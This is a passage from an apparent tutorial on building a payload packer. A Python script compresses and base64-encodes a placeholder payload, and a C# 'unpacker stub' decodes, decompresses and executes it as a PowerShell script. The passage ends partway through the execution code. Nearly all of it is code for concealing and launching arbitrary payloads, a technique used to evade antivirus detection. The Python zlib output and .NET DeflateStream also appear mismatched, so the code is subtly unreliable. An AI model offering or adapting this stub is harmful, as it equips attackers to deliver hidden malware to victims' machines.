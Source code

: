 ```
import zlib
import base64

# Base64 encoded payload
payload = "BASE64_ENCODED_PAYLOAD_HERE"

# Compress the payload
compressed_payload = zlib.compress(base64.b64decode(payload))

# Encode the compressed payload in base64
encoded_compressed_payload = base64.b64encode(compressed_payload).decode()

print(f'Compressed Payload: {encoded_compressed_payload}')
```

#### Step 3: Write an Unpacker Stub
Create a C# stub program that will decompress and execute the payload:

```
using System;
using System.Diagnostics;
using System.IO;
using System.IO.Compression;
using System.Runtime.InteropServices;
using System.Text;

class Program
{
    static void Main(string[] args)
    {
        // Base64 encoded compressed payload
        string encodedCompressedPayload = "ENCODED_COMPRESSED_PAYLOAD_HERE";

        // Decode the base64 encoded compressed payload
        byte[] compressedPayload = Convert.FromBase64String(encodedCompressedPayload);

        // Decompress the payload
        byte[] payload = Decompress(compressedPayload);

        // Convert the payload to a string (assuming it's a PowerShell script for this example)
        string script = Encoding.Unicode.GetString(payload);

        // Execute the script using PowerShell
        ExecutePowerShellScript(script);
    }

    static byte[] Decompress(byte[] data)
    {
        using (var compressedStream = new MemoryStream(data))
        using (var decompressedStream = new MemoryStream())
        {
            using (var deflateStream = new DeflateStream(compressedStream, CompressionMode.Decompress))
            {
                deflateStream.CopyTo(decompressedStream);
            }
            return decompressedStream.ToArray();
        }
    }

    static void ExecutePowerShellScript(string script)
    {
        ProcessStartInfo psi = new ProcessStartInfo();
        psi.FileName = "powershell.exe";
```